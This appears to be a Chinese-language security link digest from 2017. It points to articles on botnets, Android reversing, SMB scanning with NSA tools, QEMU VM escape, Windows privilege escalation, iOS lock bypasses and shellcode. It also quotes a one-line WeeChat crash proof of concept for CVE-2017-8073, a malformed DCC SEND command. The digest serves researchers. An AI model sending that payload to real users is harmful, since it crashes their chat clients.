 

比较“81端口的botnet”和 MIRAI 之间的联系

[http://blog.netlab.360.com/the_difference_between_http81_botnet_and_mirai/](http://blog.netlab.360.com/the_difference_between_http81_botnet_and_mirai/) 



Android应用逆向101

[https://www.evilsocket.net/2017/04/27/Android-Applications-Reversing-101/](https://www.evilsocket.net/2017/04/27/Android-Applications-Reversing-101/) 



内网安全——利用NSA Smbtouch批量检测内网

[https://3gstudent.github.io/3gstudent.github.io/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8-%E5%88%A9%E7%94%A8NSA-Smbtouch%E6%89%B9%E9%87%8F%E6%A3%80%E6%B5%8B%E5%86%85%E7%BD%91/](https://3gstudent.github.io/3gstudent.github.io/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8-%E5%88%A9%E7%94%A8NSA-Smbtouch%E6%89%B9%E9%87%8F%E6%A3%80%E6%B5%8B%E5%86%85%E7%BD%91/) 



Mehdi Talbi &amp; Paul Fariello – VM escape – QEMU Case Study

[http://www.phrack.org/papers/vm-escape-qemu-case-study.html](http://www.phrack.org/papers/vm-escape-qemu-case-study.html) 



Windows提权思路总结

[http://blog.mokirin.com/2017/04/27/windows%E6%8F%90%E6%9D%83%E6%80%9D%E8%B7%AF%E6%80%BB%E7%BB%93/](http://blog.mokirin.com/2017/04/27/windows%E6%8F%90%E6%9D%83%E6%80%9D%E8%B7%AF%E6%80%BB%E7%BB%93/) 



绕过ios锁屏漏洞的总结

[http://blog.dinosec.com/2014/09/bypassing-ios-lock-screens.html](http://blog.dinosec.com/2014/09/bypassing-ios-lock-screens.html) 



编写高质量的Windows Shellcode

[https://dimitrifourny.github.io/2017/04/28/optimized-windows-shellcode/](https://dimitrifourny.github.io/2017/04/28/optimized-windows-shellcode/) 



CVE-2017-8073 POC ：WeeChat 1.7.1之前远程crash

/exec -o /bin/echo -e "x01DCC SEND " 1.2.3.4 1337 1×01

<br>

雅虎为 Flickr 账户劫持漏洞（三处漏洞结合使用）支付7000刀

[http://blog.mish.re/index.php/2017/04/29/yahoo-bug-bounty-chaining-3-minor-issues-to-takeover-flickr-accounts/](http://blog.mish.re/index.php/2017/04/29/yahoo-bug-bounty-chaining-3-minor-issues-to-takeover-flickr-accounts/) 



Apple iOS 10.3控制面板拒绝服务漏洞
